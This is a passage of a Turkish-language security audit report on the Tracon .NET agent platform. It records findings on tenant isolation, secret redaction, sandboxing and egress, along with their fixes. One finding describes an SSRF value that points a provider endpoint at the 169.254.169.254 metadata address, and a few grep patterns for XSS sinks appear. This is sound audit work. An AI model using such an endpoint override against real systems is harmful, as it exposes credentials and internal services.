gömdü. MCP transport'u ayrı bir `HttpClientTransport` kullanır.

---

### B05-4 · Kiracı model sağlayıcı `Endpoint` override'ı doğrulanmadan saklanır · CONFIRMED · **KAPANDI (Faz 77)**

**Yer:** `src/Tracon.AspNetCore/Endpoints/TenantProviderEndpoints.cs:163` ·
kullanım `src/Tracon.Anthropic/AnthropicModelProvider.cs:107` ·
`src/Tracon.Azure/AzureOpenAIModelProvider.cs:116` ·
`src/Tracon.Google/GoogleModelProvider.cs:107`

`ApiKeyConfigurationName` için prefix denetimi vardır; `Endpoint` için hiçbir
denetim yoktur.

**Senaryo.** `SecurityAdmin` kapsamlı bir çağrı
`PUT /api/tenants/{t}/providers/anthropic` ile
`endpoint = "http://169.254.169.254/"` yazar. Agent çalıştırmasında model
istemcisi o adrese, çözülen API anahtarıyla birlikte istek atar.

**Faz 65 Soru 5** `Endpoint` alanını bilerek ekledi; adres denetimi kapsamda
değildi.

---

### B10-1 · `error.message` span alanı kendi secret filtresini atlar · CONFIRMED · **KAPANDI**

**Yer:** `src/Tracon.Core/Diagnostics/RunTraceCollector.cs:266-269`

```csharp
foreach (var tag in activity.TagObjects) {
    if (!includeSensitiveData && IsSensitive(tag.Key)) continue;   // :258-263
    attributes[tag.Key] = ...;
}
if (activity.StatusDescription is { Length: > 0 } description) {
    attributes["error.message"] = description;                      // döngü DIŞINDA
}
```

**Filtre kendi anahtarını atlar.** `IsSensitive` (`:274-277`) anahtarda
"message" arar. `"error.message"` bu testi **geçer**. Anahtar döngüden geçseydi
`RecordSensitiveData=false` iken elenecekti. Döngü dışında yazılması, filtreyi
kendi anahtarı üzerinde etkisiz kılar.

**Besleme zinciri.** `RunRecordingAgent.cs:980-982` `SetStatus(Error,
error.Message)` çağrısını **koşulsuz** yapar; `RunRecordingAgent.cs:1187-1194`
(`ToRunError`) `Message = exception.Message` yazar ve bu **herhangi** bir
tool/provider istisnası olabilir. Aynı desen workflow tarafında da vardır
(`WorkflowRunner.cs:1040-1043`, `:1185-1195`).

**Depolama ve okuma.** `SqlTraceStore.WriteAttributes` (`:160-176`) ek redaksiyon
uygulamaz. Okuma `GET /api/runs/{runId}/trace`
(`ObservabilityEndpoints.cs:18-30`), `.RequireRole(roles.Reader)`.

**Senaryo.** Bir tool `throw new InvalidOperationException($"User {email} not
found in CRM")` fırlatır. Metin `RunError.Message` → kök span
`StatusDescription` → `error.message` attribute → `trace_spans` → Reader rolüyle
okunabilir. `RecordSensitiveData=false` güvenli varsayılanı bu alanı **korumaz**.

**Kapsam.** Sızıntı kiracı içindedir, kiracılar arası değildir.

---

## 🟡 PLAUSIBLE (aksiyon almadan önce doğrula)

| Kimlik | Özet | Yer | Doğrulama yolu |
|---|---|---|---|
| B01-3 | MCP/A2A onay muhafızı filtresi kimlik filtresinden **önce** koşar; şema hazır değilse süresiz bekler | `McpServer/TraconMcpServerExtensions.cs:85-86` · `McpApprovalGuardFilter.cs:70-75` · `ExternalSurfaceGuard.cs:63-88` | Kaynak tüketimini ölç; sıra ve sınırsız bekleme koddan kesindir |
| B02-7 | `IEvalStore.QueryRunsAsync` `TenantId = null` iken tüm kiracıları döner; kardeş `IRunStore` ambient kiracıya düşer | `SqlEvalStore.cs:339` · `PostgresQueries.cs:1731` · `InMemoryEvalStore.cs:272` | Repo içi tek çağıran `TenantId`'yi verir; risk **public API** tüketicisindedir |
| B03-7 | Canlı `secret` değeri taşıyan üç `record` tipi `SecretLeakTests` kapsamı dışındadır | `ModelProviderCredential.cs:13-16` · `ApiKeyRecord.cs:54-64` · `ApiKeyGenerator.cs:85-95` | Bugün hiçbir kod bunları loglamaz; koruma boşluğu doğrulandı, sızıntı doğrulanmadı |

**B03-7 için kayda değer düzeltme:** [`03-*.md`](03-denetim-izi-ve-secret-redaksiyonu.md)
"`SecretLeakTests` bunu tip taramasıyla zorluyor" der. Kod bunu karşılamaz —
kapsam **elle tutulan bir listedir**. `tests/` altında `GetTypes()` yalnız
`Shared/Contracts/TenantCoverageTests.cs`'de geçer.

---

## 🟢 Sağlamlaştırma ve doküman-kod çelişkileri

### Doküman kodla çelişiyor (sekiz yer)

| Kimlik | Doküman ne diyor | Kod ne yapıyor |
|---|---|---|
| B03-5 | [`MIMARI-GUVENLIK.md`](../MIMARI-GUVENLIK.md):164-168 "Yazma `store` decorator'larında yapılır, endpoint katmanında değil" | `AuditRecorder.WriteAsync` **12 endpoint dosyasından** çağrılır; `DataSubjectEndpoints.cs:123` ve `TriggerEndpoints.cs:486` doğrudan `IAuditLog`'a yazar |
| B04-5 | [`MIMARI-GUVENLIK.md`](../MIMARI-GUVENLIK.md):219-222 6. kapı "süreç hiç başlamaz, `TraconException` atılır" | `SkillScriptConcurrencyLimiter.cs:25-42` reddetmez, **süresiz bekletir**. `SandboxedSkillScriptRunner` XML'i (`:25-31`) bu kapıyı zaten saymaz — **beş** kapı listeler |
| B01-5 | `TraconEndpointOptions.cs:169-178` `AllowedOrigins` "yanıtı okumak geçerli bir kimlik ister" | `AuthToken` ve policy tanımsızken kimlik gerekmez |
| B02-10 | `HttpTenantContext.cs:134-136` "kümenin dışındaki değer varsayılan kiracıya **düşmez**" | Kod `null` döner; `:75`'teki `?? DefaultTenantId` onu düşürür. Gerçek koruma `CheckTenancyWhitelist`'tedir (K-382) |
| B06-3 | [`06-veri-katmani.md`](06-veri-katmani.md):15-16 "`IContentProtector` genişleme noktası **var**" | `rg -n 'IContentProtector' src/` → **sıfır sonuç**. Tip hiçbir yerde tanımlı değildir. **Bu taramanın kendi plan dosyasındaki hatadır** |
| B06-1 | Tüketiciye dönük hiçbir belge at-rest açık metin sınırını yazmaz | `docs-site/.../security.md`, [`MIMARI-GUVENLIK.md`](../MIMARI-GUVENLIK.md), [`README.md`](../../README.md) → `rg -in 'at.rest\|encrypt'` = 0 hit |
| B06-2 | [`ADAYLAR.md`](../ADAYLAR.md):337-341 F-41 kapsamı **iki** sütun sayar | Ölçülen yüzey **dokuz** sütundur (aşağıda) |
| B07-1 | `Directory.Packages.props:65-66` `Microsoft.Bcl.Memory` 9.0.4'ü `Microsoft.ML.Tokenizers` çeker | nuspec: `tokenizers@2.0.0` `net8.0` grubu yalnız `Google.Protobuf` taşır. Gerçek kaynak `Microsoft.ML.Tokenizers.Data.O200kBase`'in netstandard2.0-only manifestosudur. K-448'in **kendi metni doğrudur**; yalnız csproj yorumu yanlış paketi işaret eder |

**B06-2 — F-41'in ölçülmüş yüzeyi.** Yazılı kapsam `conversation_items` ve
`attachments.content`'tir. Gerçek açık metin sütunları:
`sessions.state json` (`0001_initial.sql:76`) · `conversation_items.item json`
(`:112`) · `responses.payload jsonb` (`:122`) · `run_events.text` (`:175`) ·
`run_events.payload` (`:178`) · `tool_invocations.arguments/result` (`:189-190`)
· `run_inputs.messages json` (`0023_replay_and_branching.sql:33`) ·
`attachments.content bytea` (`0006_attachments.sql:22`) · `agent_files.content text`
(`:49`). Kullanıcı istemi ve model çıktısı `run_inputs.messages` ve
`run_events.text` içinde zaten tam metin durur. F-41 planlanırken iki sütun
şifrelenirse koruma eksik biter. **Bu bir yeniden tasarım değildir**; kapsam
metninin ölçülmüş hâlle uyuşmadığının kaydıdır.

### Test kapısındaki boşluklar

| Kimlik | Bulgu | Yer |
|---|---|---|
| B02-5 | `SqlPendingApprovalStore.ExpireAsync` tüm kiracıları tarar ama `[TenantAgnostic]` **taşımaz**; bunun yerine `Covered` listesine yazılarak K-281 kapısı susturulmuştur. Arayüz belgesi (`IPendingApprovalStore.cs:58-61`) attribute'ü açıkça vaat eder | `SqlPendingApprovalStore.cs:102-113` · `tests/Shared/Contracts/TenantCoverageTests.cs:92` |
| B02-6 | `TenantCoverageTests` yalnız adı `Sql` ile başlayan tipleri tarar; `PgVectorSearchStore` kapının tamamen dışındadır. Kodu bugün temizdir — bulgu **kapının kendisindedir** | `tests/Shared/Contracts/TenantCoverageTests.cs:200` · `PgVectorSearchStore.cs:53,123,173,193` |
| B05-6 · **KAPANDI (Faz 77)** | K-164'ün gerçek zorlama noktası `WebhookSocketGuard`'ın testi yoktur (`grep -rl "WebhookSocketGuard" tests` boş). Guard, çözüm+denetim döngüsünü `ValidateResolvedAsync`'ten **kopyalar** | `src/Tracon.Core/Webhooks/WebhookSocketGuard.cs` → `EgressSocketGuard`; kopya döngü silindi, `EgressAddressValidatorTests` + `EgressGuardTests` |
| B06-6 | Kötücül tanımlayıcı testi yalnız PostgreSQL'dedir. SQL Server `SchemaName` ve SQLite `TablePrefix` karşılığı yoktur | `tests/Tracon.PostgreSql.IntegrationTests/MigrationTests.cs:196-215` |
| B09-1 | `EmbeddedUiProvider` path traversal koruması **kod yapısından** gelir (dictionary-only lookup), testle kilitlenmemiştir | `src/Tracon.UI/Internal/EmbeddedUiProvider.cs:91` |

### Diğer sağlamlaştırma

| Kimlik | Bulgu | Yer |
|---|---|---|
| B01-4 | Bearer'dan muaf tetikleyici grubu, ilgisiz bir `Authorization` başlığı taşıyan **geçerli imzalı** webhook'u `401` ile reddeder; HMAC hiç değerlendirilmez. Güvenliği gevşetmez, kapatır | `TraconEndpointFilter.cs:115-130` |
| B03-4 | Aynı interpolation sınıfı iki yerde daha vardır; orada sonuç `500`'dür (fail-closed). Düz metin sütunlu sağlayıcılarda yük yine sahtelenebilir | `TenantProviderEndpoints.cs:340` · `TriggerEndpoints.cs:461-465` |
| B03-6 | Tek bir doğrudan `IAuditLog` yazımı `AuditSecretFilter`'ı hiç çağırmaz. Bugünkü yük secret taşımaz; sapma tutarlılık boşluğudur | `DataSubjectEndpoints.cs:123-131` |
| B04-6 | `script.run` kaydı hiç başlamayan çalıştırmalar için de yazılır. Yön güvenlidir (fazla kayıt), ama "kim ne çalıştırdı" cevabını kirletir | `SandboxedSkillScriptRunner.cs:299-307` |
| B04-7 | Kapı zinciri `DenyAsync`'in her zaman fırlatmasına bağlıdır; `[DoesNotReturn]` yoktur, tip sistemi zorlamaz | `SandboxedSkillScriptRunner.cs:267-276`, `:196-214` |
| B05-5 · **KAPANDI (Faz 77)** | Webhook aboneliğinin ek başlıkları hiç doğrulanmaz ve sayı/boyut sınırı yoktur. `X-Tracon-Signature` adlı bir giriş alıcının doğrulamasını bozar | `WebhookSigner.IsReservedHeader` + `TraconWebhookOptions.MaxExtraHeaders`; `WebhookDeliveryHeaderTests` |
| B07-2 | Üç pin'in üst paketleri CVE'yi kendi floor'una gömmüştür (`Microsoft.AspNetCore.OpenApi` 10.0.11, `Testcontainers` 4.14.0). Pin şu an gereklidir; üst sürüme geçilirse düşer | `Directory.Packages.props:207`, `:238-239` |

### 🟢 PLAUSIBLE

| Kimlik | Özet | Yer |
|---|---|---|
| B02-8 | `TenantPrefixingAgentFileStore.Rewrite` `..` normalize etmez. Kalıcı uygulama güvenlidir; MAF `InMemoryAgentFileStore.NormalizeRelativePath` davranışı doğrulanamadı. Ayrıca `".."` biçimsel olarak geçerli bir `tenant_id`'dir | `TenantPrefixingAgentFileStore.cs:115-128` |
| B02-9 | `CompiledAgentCache.Evict(name)` kiracı ayırt etmez; gürültülü komşu maliyeti. Sızıntı yönü terstir | `CompiledAgentCache.cs:186-196` |
| B05-7 · **KAPANDI (Faz 77)** | `WebhookUrlValidator.IsPrivate` NAT64 (`64:ff9b::/96`) ve IPv4-uyumlu IPv6 (`::a.b.c.d`) biçimlerini kapsamaz | `EgressAddressValidator.TryGetEmbeddedIPv4` — NAT64, IPv4-uyumlu, IPv4-çevrilmiş ve 6to4 birlikte; `EgressAddressValidatorTests` |
| B05-8 | Alıcının yanıt gövdesi (8 KB'a kadar) `Error` alanına yazılır ve yönetici API'sinden döner | `WebhookDeliveryJobHandler.cs:258` |
| B06-4 | Saklama arşivi ek dosyaların ham baytlarını `SELECT *` ile dışarı yazar; veri konusu ihracı aynı sütunu bilerek dışlar. Dışlama gerekçesi **boyut**tur, gizlilik değil | `SqlDialect.cs:286` · `SqlJsonRowWriter.cs:112-113` |
| B06-5 | Sunucu tarafı regex ön-süzgecinde zaman sınırı yoktur; istemci tarafında 2 saniyedir. `CommandTimeoutSeconds = 0` kabul edilir ve **sınırsız** belgelenir → o durumda ciddiyet 🟡'ye çıkar | `PostgresQueries.cs:1285` · `SqlAgentFileStore.cs:191` |
| B07-3 | `Microsoft.Bcl.Memory` pin'i muhtemelen zaten gereksizdir (`Microsoft.Agents.AI` 1.16.0 kendisi `>= 10.0.5` ister). `dotnet restore` koşulmadı | `Directory.Packages.props:71` |
| B10-2 | `SuccessSampleRatio=1` × `RecordSensitiveData=true` kesişimi belgelenmemiştir. Retention varsayılan kapalıdır → iki ayar birlikte açılırsa tam prompt/completion içeriği süresiz birikir | `docs-site/.../production.md:217-229` · `TraconOptions.cs:374-383` |

---

## Doğrulanan korumalar

Aşağıdakiler **kanıtla temiz** çıktı. Sonraki tarama bunları tekrar taramasın;
yalnız ilgili kod değiştiğinde yeniden bak.

### Kimlik ve yetkilendirme

- **Sabit-zamanlı karşılaştırma.** `Security/BearerTokenValidator.cs:57-63` iki
  tarafı da SHA-256'ya indirger, `CryptographicOperations.FixedTimeEquals`
  kullanır, uzunluk sızdırmaz ve tamponu `ZeroMemory` ile temizler (`:95`).
  Webhook imzası da sabit zamanlıdır (`Webhooks/WebhookSigner.cs:77-79`), gelen
  tetikleyici de (`Triggers/InboundTriggerDispatcher.cs:388`). Erken çıkışlı
  `==`/`StartsWith` ile token karşılaştırması yoktur.
- **K-431 (`RequireRole(null)`) sınıfı temiz.** Tüm çağrılar
  `roles.Reader/Operator/Admin` sabitlerini kullanır; elle yazılan policy adı
  yoktur (`Security/TraconRolePolicies.cs:58-60`).
- **Muafiyet listesi temiz.** `Endpoints/`, `OpenAICompat/`, `Voice/` altındaki
  her `MapGet/MapPost/MapPut/MapDelete/MapMethods` ya korumalı gruba ya bilinen
  dört muafiyete bağlıdır: `/api/meta` (`MetaEndpoints.cs:25`), arayüz kabuğu
  (`UiEndpoints.cs:41,45`), OAuth callback (`GovernanceEndpoints.cs:42`),
  tetikleyici kabulü (`TriggerEndpoints.cs:93`). Filtresiz veya rolsüz başka uç
  yoktur.
- Webhook imza yolunda K-359 sınıfı yoktur: `secret` çözülemezse `null` döner ve
  doğrulama kapanır (`InboundTriggerDispatcher.cs:374-388`).
- Sorgu dizesinde token taşıyan hiçbir uç yoktur (`EventSource` yerine `fetch`,
  `lib/sse.ts:130`).

### Kiracı izolasyonu

- **Kapsam listesi tamdır.** `Stores/*.cs` içindeki 35 sınıfın 35'i de `Covered`
  sözlüğünde karşılık bulur. Bayat kayıt yoktur.
- **33 `[TenantAgnostic]` muafiyetinin 31'i geçerlidir.** Bozuk ikisi B02-4 ve
  B02-5'tir. `SqlEvalStore`'un altı muafiyeti doğrudur: çağıranlar önce
  `GetSuiteAsync(tenants.TenantId, ...)` çağırır.
- **`IMemoryCache` repoda hiç yoktur.** Değiştirilebilir `static` sözlük yoktur.
- **Kiracıyı anahtara katan ve temiz olanlar:** `CompiledAgentCache`
  (`CacheKey(TenantId, Name, Version, DependencyFingerprint, Culture)`, `:206`) ·
  `VoiceConnectionLimiter.cs:44` · `SkillScriptConcurrencyLimiter.cs:27` ·
  `RunSampler.cs:168` · `OnlineEvalSummaryService.cs:46` · `InMemoryAuditLog.cs:28`
  · `InMemoryWorkflowStores.cs:113` · `InMemoryAgentDefinitionStore.cs:108`.
- **Bilerek kiracısız olanlar:** `ProviderCredentialClientCache.cs:52` (anahtar
  `ApiKey|Endpoint`; kimlik sınırı kimlik bilgisinin kendisidir, XML'de
  gerekçeli) · `OpenAINamedChatClientFactoryCache.cs:52` · `EmbeddedUiProvider` ·
  `InboundTriggerRateLimiter.cs:50`.
- **BYOK ek koruması.** Kiracıya özgü kimlik bilgisi kullanan tanım
  `CompiledAgentCache`'i tamamen atlar (`DefinitionStoreAgentSource.cs:95-98`,
  `CodeAgentSource.cs:114-118`).
- **Header/claim önceliği her yolda tutarlıdır.** Kiracı header'ı yalnız iki
  yerde okunur (`HttpTenantContext.cs:119`, `TraconEndpointFilter.cs:223/270`).
  `ClaimType` tanımlıysa header hiç okunmaz. WebSocket, UI, OAuth callback ve
  inbound trigger gruplarının dördü de `TraconEndpointFilter` taşır, yani
  `CheckTenancyWhitelist` dört yolda da koşar.
- **K-355 ambient süzme meşru yazmayı düşürmez.** Dört yazma yolu beklenen
  kiracıyı taşır; üç lehçede `(@tenant_id IS NULL OR ...)` sayısı aynıdır (5/5/5).
  İki yönlü sözleşme testi vardır (`RunStoreContract.cs:1842-1938`).

### Denetim izi

- **K-081 tekil/çoğul `token` ayrımı temizdir.** `maxOutputTokens` gibi sayım
  alanları `:124-128`'de dışlanır.
- **`AsyncLocal` tuzağı yoktur.** `AuditActorContext.Current`'a tek üretim yazımı
  `TraconEndpointFilter.cs:177`'dedir ve onu taşıyan `Proceed` **bilerek
  `async` değildir** (`:168-179`), bu yüzden yazım çağırana akar. Diğer dört
  `AsyncLocal` yazımı kendi metot gövdesindedir veya senkron kapsam
  sarmalayıcısıdır; akışlı yollarda her adımda tekrarlanmıştır.
- **Hash zinciri kanonik biçimi temizdir.** `AuditChainHasher.AppendJsonString`
  (`:133-172`) `"` ve `\` kaçırır; kodlama enjektiftir. Hash redaksiyon
  **sonrası** değer üzerinden hesaplanır.
- **K-059 temizdir.** `*ConfigurationKey` alanları yalnız **ad** taşır.
  `ApiKeyEndpoints.cs:166-168` ham değeri ve hash'i bilerek dışarıda bırakır.
  `api_keys.key_hash` bir hash'tir.

### Script sandbox

- **K-091 korunuyor.** Süreç başlatan tek yer `SkillScriptProcessRunner.cs:78-107`.
  `ArgumentList`'e yalnız `scriptPath` girer (`:88`); argümanlar
  `StandardInput`'a yazılır (`:162`). Ortam `:93`'te `Clear()` edilir.
  `UseShellExecute = false` (`:84`) — kabuk yorumu yoktur.
- **K-089 korunuyor: audit çalıştırmadan öncedir.** Sıra: `Enabled` (`:243`) →
  grant (`:253-265`) → yorumlayıcı (`:267-276`) → argüman boyutu (`:280-288`) →
  şema (`:290-294`) → **audit (`:299-305`, yutmaz, `:477-484` fırlatır)** → kota
  kirası (`:307`) → dosya yazımı (`:316-322`) → süreç (`:324`).
- **Kota sayacı atomiktir, yarış yoktur.** İki katmanlı `SemaphoreSlim`;
  read-modify-write sayacı yoktur. `Lease.Dispose` `Interlocked.Exchange` ile
  çift bırakmayı engeller.
- **Yorumlayıcı allow-list varsayılan boştur** (`TraconOptions.cs:216-217`).
  Kod yolu varsayılan eklemez. (Config genişletebilir → B04-2.)
- **`PlatformIsolationAcknowledged` kapısı çalışır ve metni doğrudur.** Dosya
  sistemi, ağ, CPU ve hak düşürme yokluğunu dört yerde açıkça sayar. K-086
  korunmaktadır.

### Veri katmanı

- **SQL enjeksiyonu: sıfır bulgu.** 33 paylaşılan store dosyasında komut metni
  sabit `SqlQueriesBase` özelliğidir. Dinamik SQL kuran yalnız iki store vardır
  ve ikisi de allow-list'ten beslenir (`RetentionTargetRegistry`,
  `DataSubjectTargetRegistry`; `default` → `ArgumentException`).
- **Dinamik `ORDER BY` allow-list'tendir.** Public API'de sıralama veya kolon
  seçen hiçbir parametre yoktur.
- **Tablo/şema adı iki katmanda doğrulanır.** `SqlIdentifier.IsValidUnquoted`
  yalnız `[a-z0-9_]` kabul eder; açılışta üç validator + `ValidateOnStart()`,
  sorgu kurulumunda tekrar `RequireSchemaName`.
- Üç sorgu dosyasındaki her interpolasyon deliği sayılmıştır: PostgreSQL 246,
  SQL Server 262, SQLite 261 kez `{Schema}` (doğrulanmış). Çağrı anında yeniden
  birleştirilen SQL metni yoktur.
- **K-464 ve K-259 sınıfları temizdir.** `ArrayContains`'in dokuz çağrısının
  tamamı tam nitelikli sütun verir. 47 SQLite tablo adı tarandı; `{Schema}` öneki
  taşımayan tek bir referans yoktur.
- **`AND` birleştirmesi iki tarafı da parantezler** (`SqlDialect.cs:339-340`).
  Bu önemlidir: `RetentionTargets.SkillScriptGrants` yüklemi üst seviyede `OR`
  taşır; parantez olmasaydı kiracı süzgeci `AND` önceliğiyle tek dala düşer ve
  **başka kiracıların satırları silinirdi**.

### Dış ağ

- **"OAuth token DB'ye yazılmaz" kanıtlandı.** `TokenContainer` yalnız üç
  satırda geçer, üçü de `InMemoryMcpTokenCache.cs:18,24,39`. `ITokenCache`'in tek
  uygulaması odur. `UpsertMcpServer` parametre listesinde token sütunu yoktur.
- **DNS rebinding / TOCTOU penceresi kapalıdır.** `WebhookSocketGuard.cs:43` adı
  bir kez çözer, `:53-60` çözülen her adresi denetler, `:67` **aynı diziye**
  bağlanır. Arada ikinci çözümleme yoktur. `AllowAutoRedirect = false`.
- **MCP kaynak okumada serbest URI yoktur** (`McpResourceClient.cs:107-112`).
- **MCP'de stdio yoktur** (`McpServerDefinition.cs:33-40`).

### AOT, frontend, bağımlılık

- **Reflection disiplini temizdir.** Tek "isimden tip yükleme"
  (`WorkflowResponseFactory.cs:91`) beş halka geriye izlendi: tip adı HTTP
  gövdesinden değil, MAF motorundan ve nihayetinde workflow yazarının koddaki
  generic parametresinden gelir. Tracon'in DB kaynaklı `WorkflowDefinition`
  tipi serbest tip-adı alanı **taşımaz**; `Workflows.Declarative` referans
  alınmaz. `Activator.CreateInstance`, `Assembly.LoadFrom`, `AssemblyLoadContext`,
  `MakeGenericType` → repo genelinde **sıfır** eşleşme.
- **XSS regresyonu yoktur.** `dangerouslySetInnerHTML`, `.innerHTML`, `eval(`,
  `new Function(` → 1096 dosyada **0 sonuç**.
- **CSP vardır** (`EmbeddedUiProvider.cs:48-58`, `default-src 'none'` tabanlı) ve
  **CORS varsayılan kapalıdır**; `AllowAnyOrigin` seçeneği API'de hiç yoktur.
- **K-008 ihlali yoktur.** Preview/alpha MAF paketleri yalnız
  `Tracon.AspNetCore.csproj:51-55`'tedir.
- **Frontend'de kritik/yüksek CVE yoktur.** `vite@7.3.6`, `esbuild@0.28.1`,
  `tailwindcss@4.3.3`, `react@19.2.8`, `typescript@5.9.3` — bilinen Vite/esbuild
  CVE'lerinin hepsinden yenidir.
- **109 `ILogger` çağrı noktasının tamamı temizdir.** Hiçbiri prompt, tool
  argümanı, tool sonucu veya model yanıtını şablon parametresi olarak taşımaz.

### CVE-pin durumu

| Paket | Pin | Advisory | Hâlâ gerekli mi | Kaldırma koşulu |
|---|---|---|---|---|
| `Microsoft.Bcl.Memory` | 10.0.10 | GHSA-73j8-2gch-69rq | Muhtemelen zaten gereksiz (B07-3) | `Microsoft.Agents.AI` 1.16.0 zaten `>= 10.0.5` ister |
| `SQLitePCLRaw.lib.e_sqlite3` | 2.1.12 | GHSA-2m69-gcr7-jv3q | **Evet** | `Microsoft.Data.Sqlite` 10.0.11'e geç |
| `Microsoft.OpenApi` | 2.11.0 | GHSA-v5pm-xwqc-g5wc | **Evet** | `Microsoft.AspNetCore.OpenApi` 10.0.11'e geç |
| `SSH.NET` | 2026.0.0 | GHSA-q939-rpr3-3284 | **Evet** | `Testcontainers` 4.14.0'a geç |

Son üçü yalnız test projelerinde tüketilir; hiçbiri yayınlanan paketin bağımlılık
grafiğine girmez.

---

## F-91 gözlemi (yeniden çözülmedi)

[`ADAYLAR.md`](../ADAYLAR.md)'deki F-91 (MCP OAuth token'ının örnekler arasında
paylaşılması) **açık bir tasarım sorusudur**. Bu tarama onu çözmedi; yalnız
mevcut davranışı kaydeder:

Token `(kiracı, sunucu)` başına **süreç içi** bir `ConcurrentDictionary`'de yaşar
(`McpOAuthTokenCacheRegistry.cs:17-21`). İkinci bir uygulama örneği veya bir
yeniden başlatma cache'i boşaltır. Arka plan yolu bilerek hızlı başarısız olur
(`McpTransportFactory.cs:151-155`); o sunucunun tool'ları listeden düşer ve
yönetici `/oauth/start` ile yeniden yetkilendirir. `state` 32 bayt CSPRNG'dir
(`McpOAuthAuthorizationCoordinator.cs:105`) ve akış bitince silinir (`:249`).
`RedirectUri` sabit `OAuthCallbackBaseUri`'den türetilir, istekten değil.

**B05-1 bundan ayrı bir kod kusurudur:** aynı süreç içinde token kiracılar
arasında paylaşılabilir.

---

## Kapsanamayan

Bu tarama aşağıdakilere bakmadı veya kanıtlayamadı. Sonraki tur bunlarla başlar.

| Boşluk | Neden | Kapatma yolu |
|---|---|---|
| **Gelen MCP/A2A sunucusu** (`src/Tracon.AspNetCore/McpServer/`, `/A2A/`) kodu | Konu 05'in "Kapsam" listesinde yoktu; yalnız `docs/hafiza/` üzerinden okundu | Ayrı bir konu oturumu |
| Hiçbir bulgu **çalıştırılarak** doğrulanmadı | Salt-okunur kısıt; `dotnet build`/`test` yasaktı | `kusur-giderme` her bulgu için düşen test yazar |
| MAF `InMemoryAgentFileStore.NormalizeRelativePath` `..` davranışı | DLL gövdesi okunamadı | `maf-api-kesfi` veya tek satırlık sözleşme testi (B02-8) |
| MAF `RequestPort`/`TypeId`/`PortableValue` iç kodu | Üçüncü taraf; yalnız XML dokümanı okundu | Checkpoint'ten tip adı geri kurulurken MAF allow-list yapıyor mu |
| MAF `OpenTelemetryAgent`'ın `EnableSensitiveData=true` iken ürettiği tag adları | Üçüncü taraf | — |
| `dotnet list package --vulnerable` ve `npm audit` | Salt-okunur kısıt | Faz kapanışında koş |
| Log sink formatlaması (exception `ToString()` + stack trace) | Yalnız çağrı **siteleri** incelendi | — |
| `docs-site/` Astro build çıktısı | Yalnız kaynak tarandı | — |
| `HttpHeaders.TryAddWithoutValidation` CR/LF davranışı | Runtime kaynağı okunmadı | B05-5'in başlık enjeksiyonu boyutu açık kaldı |

---

## Durum (2026-08-20 kapanışı)

Onsekiz aksiyon bekleyen bulgunun **on üçü kodlandı** (artı dört 🟢 sağlamlaştırma, üç PLAUSIBLE ve taramanın bulduğu B02-11), **ikisi yanlış pozitif
çıktı**, **üçü yetenek adayına döndü**. Doküman-kod çelişkilerinin tamamı
kapatıldı.

| Kapanan | Nasıl |
|---|---|
| B01-1 | `RequireApiKeyScope(..., mandatory: true)` + filtrede üç yolda zorlama; loopback varsayılanı korundu |
| B01-2 | Sunulan her alt protokol değeri artık statik token **veya** API anahtarı deposuna karşı doğrulanıyor |
| B02-1 | `AgentKey`'e `TenantId` eklendi; `WorkflowAgentIdentity` bilerek değişmedi (checkpoint uyumu) |
| B02-3 | `CircuitKey(ProviderName, CredentialScope)`; BYOK kiracıya, paylaşılan kimlik ortak devreye düşer |
| B02-4 | `GET /api/tenants` → `Admin` + `platform:admin` |
| B03-1 | `AuditSecretFilter` ayraçları normalize ediyor; K-081'in çoğul `tokens` istisnası korundu |
| B03-2 | `AuditPayload.Write/WriteArray` — **10 çağrı yeri** dönüştürüldü (denetçi 3 bildirmişti) |
| B03-3 | API anahtarlı istek denetim izine `apikey:{id}` aktörüyle yazıyor |
| B04-1 | `SkillScriptNaming` — hem kaydetme ucunda hem `Path.Combine` sınırında |
| B04-2 | `Interpreters`/`SkillRoots`/`AllowStoredScripts` yapılandırmadan **okunmuyor** |
| B04-3 | `run_skill_script` için `remember` **her zaman** argüman hash'ine bağlanıyor |
| B04-4 | `script.grant`/`script.revoke` doğrudan `IAuditLog`'a, **mutasyondan önce**, yazamazsa keser |
| B10-1 | `error.message` kendi filtresinin içine alındı |
| B02-5 | `SqlPendingApprovalStore.ExpireAsync` artık gerçek `[TenantAgnostic]` gerekçesi taşıyor; `Covered` listesinden çıkarıldı |
| B02-6 | `TenantCoverageTests` ad filtresi (`StartsWith("Sql")`) kaldırıldı — kapı artık **şekle** bakıyor. `PgVectorSearchStore` kapıya girdi; dört metodu da mevcut iki-kiracılı testle kapsanıyor. Kapı sağlayıcı-farkındalığı kazandı (paylaşılan kaynak her sağlayıcıya **linklenerek** derleniyor, o yüzden taranan derleme sağlayıcıya göre değişiyor) |
| B03-6 | `DataSubjectEndpoints` tek redakte etmeyen doğrudan yazımdı; `AuditSecretFilter.Redact` eklendi |
| B04-7 | `DenyAsync` `[DoesNotReturn]` aldı — kapı zinciri artık tip sistemiyle korunuyor |
| B01-3 | Kimlik filtresi artık onay muhafızından **önce** koşuyor (MCP ve A2A). Kimliği doğrulanmamış istek, zaman aşımı olmayan açılış denetiminde park etmek yerine 401 alıyor |
| B02-7 | `EvalRunQuery.TenantId` **zorunlu** oldu — `null`'ın "tüm kiracılar" anlamına geldiği yüzey kapandı; kardeş `RunQuery` ile ters varsayılan sorunu ortadan kalktı |
| B02-11 | Trace tamponu artık `(traceId, yerel kök span)` ile anahtarlı. Paylaşılan bir `traceparent` iki `run`'ı aynı tampona sokuyordu; ilk tamamlanan hepsini kendi kiracısıyla yazıyordu. Regresyon testi: `Two_runs_sharing_a_trace_id_do_not_share_a_buffer` |
| B03-7 | Üç `record` tipi redakte eden `ToString` aldı; elle tutulan liste **yapısal tarayıcıyla** değiştirildi (`SecretBearingTypeTests`) ve tarayıcının boş olmadığı ayrıca kanıtlandı |
| B06-1 | `docs-site/.../security.md` "What is stored in the clear" bölümünü kazandı: dokuz sütun tablo hâlinde, `secret` istisnası ve "şifreleme alt katmanda" yönlendirmesiyle. Kontrol listesine de bir satır eklendi |

| Yanlış pozitif | Sebep |
|---|---|
| B05-1 (🔴) | Ayırıcı **vardı** — görünmez `U+001F`. Kaynak okuması gösteremez. Yerine gerçek bir okuma-yolu kusuru bulundu ve kapatıldı |
| B02-2 (🟡) | K-283 ölü kodu **bilerek** bıraktı (existence oracle) |

| Yeteneğe döndü | Nereye |
|---|---|
| B05-2, B05-3, B05-4 | Paylaşılan egress/SSRF muhafızı — [`ADAYLAR.md`](../ADAYLAR.md) |
| B06-1, B06-2 | F-41 kapsamı dokuz sütuna genişletildi ve dokümantasyon boşluğu kaydedildi |

**Doğrulama (2026-08-20 kapanışı):** dört kapı da temiz —
`build` 0 uyarı · `test` **4455/4455** · `pack` · `format`.

